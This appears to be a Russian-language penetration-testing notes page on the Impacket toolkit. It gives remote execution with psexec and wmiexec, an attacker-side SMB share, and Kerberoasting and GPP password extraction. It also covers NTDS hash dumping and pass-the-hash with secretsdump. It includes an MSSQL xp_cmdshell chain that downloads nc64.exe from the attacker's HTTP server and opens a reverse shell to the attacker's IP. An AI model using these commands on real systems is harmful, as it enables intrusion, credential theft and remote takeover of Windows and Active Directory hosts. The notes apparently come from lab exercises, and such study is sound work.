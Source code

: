 ## Введение
Impacket представляет собой коллекцию классов Python для работы с сетевыми протоколами. Impacket ориентирован на обеспечение низкоуровневого программного доступа к пакетам, а для некоторых протоколов (например, SMB1-3 и MSRPC) — на саму реализацию протокола. Пакеты могут быть сконструированы с нуля, а также разобраны из необработанных данных, а объектно-ориентированный API упрощает работу с глубокими иерархиями протоколов. Библиотека предоставляет набор инструментов в качестве примеров того, что можно сделать в контексте этой библиотеки.
```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt
```
Теперь мы готовы узнать об использовании инструмента и, в частности, mssqlclient.py скрипта.
## Подключиться к windows
impacket-psexec - `impacket-psexec '{domain}/{username}:{pass}@{IP}'
`
impacket-wmiexec
impacket-smbexec
## SMB
### Передать файл через SMB (развернуть SMB сервер)
```
impacket-smbserver -smb2support public mydir
```
где `mydir` - директория на атакующем компьютере

Команда выше создает на нашем хосте SMB-сервер с поддержкой SMB2, на котором размещена шара public, которую мы маппим с директорией mydir на атакующем хосте.

Для копирования файла или директории на сервере достаточно просто воспользоваться встроенным функционалом операционной системы: \
``` 
copy \\<ATTACKER_IP>\public\{myfile.txt}
```

этот же сервер можно использовать совместно с [[mitm6]], чтобы красть аутентификационные данные пользователей.

---
## mySQL
```
cd impacket/examples/
python3 mssqlclient.py -h
```
Пример подключения к **MSSQL**:
```
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```
где `-windows-auth` - флаг указан для использования проверки подлинности Windows
Для взлома MSSQL полезен ресурс: [MSSQL Injection Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Например благодаря нему можно использовать следующие команды для получения доступа к windows машине:
``` 
EXEC xp_cmdshell 'net user';
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

У себя:
python -m http.server 80
nc -lvnc 443

Снова в MSSQL:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://<my python IP>/nc64.exe -outfile nc64.exe"

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe <my nc IP> 443"
```
Пример подключения к машине windows (из соответствующей папки impacket):
```
python3 psexec.py <login>@{TARGET_IP}
```
## TGS / SPN / Remote Management Users
![[Pasted image 20240531151613.png]]
Если мы знаем, что какой-то пользователь в **Active Directory** имеет право на подключение к контроллеру домену при помощи **WinRM**, то мы можем завладеть его учётной записью из-за того, что эта учетная запись подвержена атаке **Kerberoasting**.

``` 
impacket-GetUserSPNs -request -dc-ip {IP} {domain}/{username}:'userpassword' -outputfile kerberoastable.txt
```
![[Pasted image 20240531152547.png]]
Мы получаем зашифрованный **TGS**, а также видим, что учетная запись **dsemenov** действительно подвержена атаке и состоит в группе **Remote Management Users**, что даёт ей право подключаться по **WinRM**. 

Итог: атаки на пользователей windows:
```
impacket-GetUserSPNs {domain}/{username}:{pass} -dc-ip {IP}
```
```
impacket-Get-GPPPassword {domain}/{username}:{pass}@{IP}
```

# NTDS
### Анализ 
``` 
secretsdump.py -ntds /путь/к/файлу/ntds.dit -system /путь/к/файлу/SYSTEM LOCAL
```
`LOCAL` - указывает дампить локально. Также можно дампить и удалённо, имя аутентификационные данные.

Вывод:
```
{userName}:{userID}:{LM HASH от пустого пароля(у всех одинаковый)}:{NTLM HASH}:::
```
### Атака
```
secretsdump.py -hashes :{HASH} '{domain/{userName}@{IP}'
```
Машинные учётные записи именуются в виде `{имя компьютера}$`